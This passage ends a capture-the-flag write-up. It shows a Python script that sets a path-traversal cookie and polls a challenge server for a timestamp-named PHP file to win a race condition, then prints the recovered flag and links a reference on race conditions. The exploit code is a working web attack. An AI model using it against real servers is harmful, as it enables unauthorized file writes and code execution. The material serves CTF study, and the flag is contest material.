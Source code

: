 ```python
import time
import requests

session = requests.Session()
session.cookies.set('user', '../../var/www/html/a')

timestamp = int(time.time()) + 5
while 1:
    # r = session.get('http://localhost:1337/a_{}_exploit.php'.format(timestamp))
    r = session.get('http://13.215.248.36:30301/a_{}_exploit.php'.format(timestamp))
    print(timestamp)
    if (r.status_code == 200):
        print(r.text)
        break
```
{: file="metadata_out.py" }

The flag is
```
BKSEC{Th!s_1s_just_the_st@rt_0f_the_r@ce_56a7ea5707919380ae4685b4adaba65e}
```

## Summarization

- [Race conditions](https://portswigger.net/web-security/race-conditions)